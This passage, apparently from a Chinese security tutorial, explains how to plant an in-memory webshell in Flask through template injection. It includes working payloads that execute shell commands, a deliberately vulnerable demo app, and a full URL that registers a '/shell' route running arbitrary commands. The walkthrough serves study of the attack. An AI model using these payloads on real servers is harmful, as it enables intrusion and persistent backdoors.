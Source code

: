 add\_url\_rule 需要三个参数：

-   URL：和装饰器 `app.route()` 的第一个参数一样，必须以 `/` 开始。
-   endpoint：就是在使用 `url_for()` 进行跳转的时候，这个里面传入的第一个参数就是这个 endpoint 对应的值。这个值也可以不指定，默认值为函数名。
-   view\_func：只需要写方法名（也可以为匿名参数），如果使用方法名不要加括号，加括号表示将函数的返回值传给了 view\_func 参数。

#### [](#212-flask-context)2.1.2 flask context

想实现内存 webshell，关键点在于 `view_func` 。`view_func` 可以采用匿名函数定义逻辑，该方法要实现捕获参数值、执行命令、响应。

Flask 的工作原理：当一个请求进入 Flask，首先会实例化一个 Request Context，这个上下文封装了请求的信息在 Request 中，并将这个上下文放入到栈 `_request_ctx_stack` 的结构中，也就是说获取当前的请求上下文等同于获取 `_request_ctx_stack` 的栈顶元素 `_request_ctx_stack.top` 。

#### [](#213-flask-%E5%86%85%E7%BD%AE%E5%87%BD%E6%95%B0)2.1.3 flask 内置函数

通过 `{{...}}` 可以执行表达式，但是命名空间是受限的，没有 `builtins`，所以 `eval`、`popen` 这些函数是不能使用的。但是可以通过任意一个函数的 `func_globals` 而得到其的命名空间，而得到 `builtins`。

Flask 内置了两个函数 `url_for` 和 `get_flashed_messages`。也就是构造命令执行，可以使用：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```python<br>{{url_for.__globals__['__builtins__'].__import__('os').system('ls')}}<br><br>{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()")}}<br>``` |

### [](#22-%E5%AE%9E%E7%8E%B0)2.2 实现

以下面的 Demo 代码为例：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```python<br>from flask import Flask, request<br>from flask import render_template_string<br>app = Flask(__name__)<br><br>@app.route('/')<br>def hello_world():<br>    return 'Hello World'<br><br><br>@app.route('/test',methods=['GET', 'POST'])<br>def test():<br>    template = '''<br>        <div class="center-content error"><br>        <h1>Oops! That page doesn't exist.</h1><br>        <h3>%s</h3><br>        </div><br>    ''' %(request.values.get('param'))<br><br>    return render_template_string(template)<br><br>if __name__ == '__main__':<br>    app.run(port=8000)<br>``` |

将 payload 拆解开：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```python<br>url_for.__globals__['__builtins__']['eval'](<br>	"app.add_url_rule(<br>		'/shell', <br>		'shell', <br>		lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()<br>		)<br>	",<br>	{<br>		'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],<br>		'app':url_for.__globals__['current_app']<br>	}<br>)<br>``` |

lambda 即匿名函数，payload 中 `add_url_rule()` 函数的第三个参数定义了一个 lambda 匿名函数，其中通过 os 库的 popen() 函数执行从 Web 请求中获取的 `cmd` 参数值并返回结果，其中该参数值默认为 `whoami`。

eval() 方法的语法：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```python<br>eval(expression[, globals[, locals]])<br>``` |

globals - 变量作用域，全局命名空间，如果被提供，则必须是一个字典对象。指定全局变量。

最终的 URL：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>http://IP:8000/param?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}<br>``` |
